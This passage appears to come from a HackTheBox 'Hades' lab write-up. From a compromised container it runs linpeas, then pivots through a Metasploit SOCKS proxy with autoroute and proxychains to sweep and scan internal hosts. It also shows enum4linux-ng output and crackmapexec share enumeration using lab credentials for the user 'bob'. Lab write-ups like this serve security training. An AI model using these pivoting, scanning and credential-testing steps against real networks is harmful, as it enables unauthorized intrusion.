

Now that we finally have a stable connection we can try to upload linpeas.sh and check what other stuff can we find here!

```Bash
═══════════════════════════════╣ Basic information ╠═══════════════════════════════
                               ╚═══════════════════╝
OS: Linux version 4.14.134-boot2docker (root@244469071b41) (gcc version 6.3.0 20170516 (Debian 6.3.0-18+deb9u1)) #1 SMP Mon Jul 22 20:22:16 UTC 2019
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
Hostname: cee1146c7ac1
Writable folder: /dev/shm

╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2

╔══════════╣ Protections
═╣ AppArmor enabled? .............. /etc/apparmor
/etc/apparmor.d
═╣ AppArmor profile? .............. kernel═╣ is linuxONE? ................... s390x Not Found
═╣ grsecurity present? ............ grsecurity Not Found
═╣ PaX bins present? .............. PaX Not Found
═╣ Execshield enabled? ............ Execshield Not Found
═╣ SELinux enabled? ............... sestatus Not Found
═╣ Seccomp enabled? ............... enabled
═╣ User namespace? ................ enabled
═╣ Cgroup2 enabled? ............... enabled
═╣ Is ASLR enabled? ............... Yes
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes (docker)

═══════════════════════════════════╣ Container ╠═══════════════════════════════════
                                   ╚═══════════╝
╔══════════╣ Container related tools present (if any):
╔══════════╣ Am I Containered?
╔══════════╣ Container details
═╣ Is this a container? ........... docker
═╣ Any running containers? ........ No
╔══════════╣ Docker Container details
═╣ Am I inside Docker group ....... No
═╣ Looking and enumerating Docker Sockets (if any):
═╣ Docker version ................. Not Found
═╣ Vulnerable to CVE-2019-5736 .... Not Found
═╣ Vulnerable to CVE-2019-13139 ... Not Found
═╣ Rootless Docker? ............... No

╔══════════╣ Interesting Files Mounted
overlay on / type overlay (rw,relatime,lowerdir=/mnt/sda1/var/lib/docker/overlay2/l/FJ5LMXDJOYDOYVIN4Q6FBAGLCU:/mnt/sda1/var/lib/docker/overlay2/l/TILMKQPAITAV7SJOET43VYFLFB:/mnt/sda1/var/lib/docker/overlay2/l/2RP5BH3ME6PGAMXY6GDJ4V37HK:/mnt/sda1/var/lib/docker/overlay2/l/VHTVQWQAULEQPKDKUT45XTAQ4S:/mnt/sda1/var/lib/docker/overlay2/l/VJ43HXVFU3UVHZGCSTDGRPPU2R,upperdir=/mnt/sda1/var/lib/docker/overlay2/03ea1e2440ec5be5d780d4fa49ca2dd4188375ed98668cb9458ab377f00dd59c/diff,workdir=/mnt/sda1/var/lib/docker/overlay2/03ea1e2440ec5be5d780d4fa49ca2dd4188375ed98668cb9458ab377f00dd59c/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)

══════════════════════════════╣ Network Information ╠══════════════════════════════
                              ╚═════════════════════╝
╔══════════╣ Hostname, hosts and DNS
cee1146c7ac1
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.2	cee1146c7ac1
nameserver 10.0.2.3

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information
link-local 169.254.0.0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 5634  bytes 7297475 (7.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3324  bytes 716070 (716.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 16  bytes 1292 (1.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16  bytes 1292 (1.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Ok nothign much except we know that we are into a docker container, so I uploaded a static binary of NMAP and did a ping sweep scan on 172.17.0.2/16 (Docker's Interface) subnet to see if any other hosts was alive?

Then I decided to check if I could se any data in those mapped folders from docker under /mnt: But mapping wasn't possible!

So here finding miself in a dead end I decided to check for tips and apparently the next step was to scan for open hosts under subnet(192.168.X.X/16), still don't get it how they found that since the IP a was showing another subnet laying on 172 class instead, after several tries I decided to setup a Proxy socks server in MSFCONSOLE and use proxychains to scan from my own host to the connected meterpreter in order to have a better undertanding of what is happening in the backgroud:



I decided after sevral tries that fastest result is by using Ping sweep module in MSFConsole and after what was a very long wait seems like we have some devices aline on 192.168.3.X/24 subnet:

```Bash
msf6 post(multi/gather/ping_sweep) > run
[*] Performing ping sweep for IP range 192.168.1.1/16
[+] 	192.168.3.202 host found
[+] 	192.168.3.203 host found
```

I will let the scan run in the backgroud so far but knowing from dashboard that devices in total are 3, we can guess that those are our machines:



So having out IP now we can target Rustcan to perform a "FullScan" on only those IP by making it way faster and stealthier instead of scanning a whole /16 subnet:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains rustscan -a 192.168.3.202,192.168.3.203 -- -A -T4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.
```

And again after a while we get the following results:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains nmap -p- 192.168.3.202 -A -T4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 10:53 CEST
Stats: 0:00:01 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 50.00% done; ETC: 10:53 (0:00:02 remaining)
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.25 seconds
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains nmap -p- 192.168.3.203 -A -T4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 10:53 CEST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.29 seconds
```

I totaly forgot to add the autoroute in MSFCONSOLE to make work the socks proxy(that's why it was failing miserably):



We can double check:



And lastly we should be able now to run a NMAP scan on those IPs: all ports seems blocked! So let's try to narrow down even further the scan by giving manually most usefull ports like HTTP,HTTPS,SMB,SSH,WINRM,KERBEROS the usual that may give us an initial attack vector:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains nmap -p 22,53,80,88,443,445,2049,3389,5985,8080 192.168.3.202 -Pn -A -T4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 11:40 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 11:40 (0:00:00 remaining)
Nmap scan report for 192.168.3.202
Host is up.

PORT     STATE    SERVICE       VERSION
22/tcp   filtered ssh
53/tcp   filtered domain
80/tcp   filtered http
88/tcp   filtered kerberos-sec
443/tcp  filtered https
445/tcp  filtered microsoft-ds
2049/tcp filtered nfs
3389/tcp filtered ms-wbt-server
5985/tcp filtered wsman
8080/tcp filtered http-proxy
Too many fingerprints match this host to give specific OS details

TRACEROUTE (using proto 1/icmp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.93 seconds
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains nmap -p 22,53,80,88,443,445,2049,3389,5985,8080 192.168.3.203 -Pn -A -T4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 11:54 CEST
Nmap scan report for 192.168.3.203
Host is up.

PORT     STATE    SERVICE       VERSION
22/tcp   filtered ssh
53/tcp   filtered domain
80/tcp   filtered http
88/tcp   filtered kerberos-sec
443/tcp  filtered https
445/tcp  filtered microsoft-ds
2049/tcp filtered nfs
3389/tcp filtered ms-wbt-server
5985/tcp filtered wsman
8080/tcp filtered http-proxy
Too many fingerprints match this host to give specific OS details
```

In both cases firewall seems blocking our probes but I will continue on specific device pages!

Running Enum4linux shows that this machine is the HADES-WEB:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains enum4linux-ng -A 192.168.3.202 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.3.202
[*] Username ......... ''
[*] Random Username .. 'nmttuyqp'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 192.168.3.202    |
 ======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:389 <--denied
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:636 <--denied
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:139 <--denied
[-] Could not connect to SMB over NetBIOS on 139/tcp: connection refused

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.3.202    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 192.168.3.202    |
 ==========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: true
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: false
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 ============================================================
|    Domain Information via SMB session for 192.168.3.202    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: WEB
NetBIOS domain name: HTB
DNS domain: htb.local
FQDN: web.htb.local
Derived membership: domain member
Derived domain: HTB

 ==========================================
|    RPC Session Check on 192.168.3.202    |
 ==========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: timed out
[-] Sessions failed, neither null nor user sessions were possible

 ================================================
|    OS Information via RPC for 192.168.3.202    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows Server 2012 R2 Standard 9600
OS version: '6.3'
OS release: ''
OS build: '9600'
Native OS: Windows Server 2012 R2 Standard 9600
Native LAN manager: Windows Server 2012 R2 Standard 6.3
Platform id: null
Server type: null
Server type string: null

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 15.77 seconds
```

After we found the BOB username we can try to check for possible sharesand a Test share came out so far:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains crackmapexec smb 'web.htb.local' -u 'bob' -p 'Passw0rd1!' --shares
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:135  ...  OK
SMB         web.htb.local   445    WEB              [*] Windows Server 2012 R2 Standard 9600 x64 (name:WEB) (domain:htb.local) (signing:False) (SMBv1:True)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
SMB         web.htb.local   445    WEB              [+] htb.local\bob:Passw0rd1! 
SMB         web.htb.local   445    WEB              [+] Enumerated shares
SMB         web.htb.local   445    WEB              Share           Permissions     Remark
SMB         web.htb.local   445    WEB              -----           -----------     ------
SMB         web.htb.local   445    WEB              ADMIN$                          Remote Admin
SMB         web.htb.local   445    WEB              C$                              Default share
SMB         web.htb.local   445    WEB              IPC$                            Remote IPC
SMB         web.htb.local   445    WEB              test
```

But seems like we can't list on the /test share!



The credentials doesn't work on the HADES-WEB via WIN-RM either:

